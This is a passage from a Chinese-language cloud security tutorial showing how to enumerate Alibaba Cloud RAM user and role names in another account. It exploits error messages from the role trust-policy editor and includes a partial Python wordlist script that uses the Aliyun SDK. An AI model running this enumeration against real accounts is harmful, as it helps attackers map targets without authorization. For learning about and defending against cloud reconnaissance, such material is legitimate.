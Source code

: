这样一个角色就创建好了，我们来到角色的「信任策略管理」页面，点击「修改信任策略」，这里我们尝试将策略里的 ARN 修改为 `acs:ram::1234567890123456:user/test`，点击保存发现提示 `策略格式错误`，无法保存成功。

<div align=center><img width="900" src="/img/image-20231027174403985.png" div align=center/></div></br>

这时，我们输入一个正确的用户 ARN，就能保存成功了，通过这个特性，我们就能枚举用户名称了。

<div align=center><img width="900" src="/img/image-20231027174607282.png" div align=center/></div></br>

枚举角色也是一样的道理，只需要将 ARN 中 user 改成 role 就行。

## 脚本批量枚举

手动一点点枚举比较麻烦，这里用 Python 简单写个批量枚举的脚本。

```python
import json
from aliyunsdkcore.client import AcsClient
from aliyunsdkram.request.v20150501 import UpdateRoleRequest


def get_input():
    account = input("请输入账号 ID: ")
    type_ = input("请输入类型: ")
    role = input("请输入要修改信任策略的角色名称：")
    dict = input("请输入字典文件: ")
    with open(dict, 'r') as file:
        names = file.readlines()
    return account, type_, names, role


def update_role_policy(account, type_, name, client, role):
    policy = {
        "Statement": [
            {
                "Action": "sts:AssumeRole",
                "Effect": "Allow",
                "Principal": {
                    "RAM": [f"acs:ram::{account}:{type_}/{name.strip()}"]
                }
            }
        ],
        "Version": "1"
    }

    request = UpdateRoleRequest.UpdateRoleRequest()
    request.set_RoleName(role.strip())
    request.set_NewAssumeRolePolicyDocument(json.dumps(policy))

    try:
        client.do_action_with_exception(request)
        print(f"[+] SUCCEEDED\t{name.strip()}")
    except Exception as e:
        print(f"[-] FAILED\t{name.strip()} -> {str(e)}")


def main():
    ACCESS_KEY = 'YOUR_ACCESS_KEY'
    SECRET_KEY = 'YOUR_SECRET_KEY'
    REGION = 'cn-hangzhou'

    client = AcsClient(ACCESS_KEY, SECRET_KEY, REGION)

    account, type_, names, role = get_input()

```